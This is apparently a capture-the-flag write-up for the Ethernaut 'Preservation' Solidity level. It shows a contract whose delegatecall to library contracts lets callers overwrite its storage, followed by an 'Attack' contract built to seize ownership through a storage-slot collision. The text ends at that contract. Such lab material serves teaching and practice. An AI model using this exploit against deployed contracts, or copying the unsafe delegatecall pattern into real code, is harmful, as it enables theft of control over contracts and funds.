 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel16.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Challenge's message:

> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored. The goal of this level is for you to claim ownership of the instance you are given. - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope. - Understanding what it means for delegatecall to be context-preserving. - Understanding how storage variables are stored and accessed. - Understanding how casting works between different data types.


The **Preservation** contract is a smart contract that allows users to set the time for **two different time zones using delegate calls to library contracts**. The contract is designed to be **upgradable**, meaning that the logic for setting the time is separated into external library contracts, **which can be swapped without modifying the main contract**. The `timeZone1Library` and `timeZone2Library` variables store the addresses of two public library contracts that handle the logic for setting the time in different time zones. And there is **storedTime** variable which stores the timestamp set by the library contracts.



# Subverting

```solidity
pragma solidity ^0.8.20;

contract Attack{
    
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time)public{
        owner = msg.sender;
    }

}
```
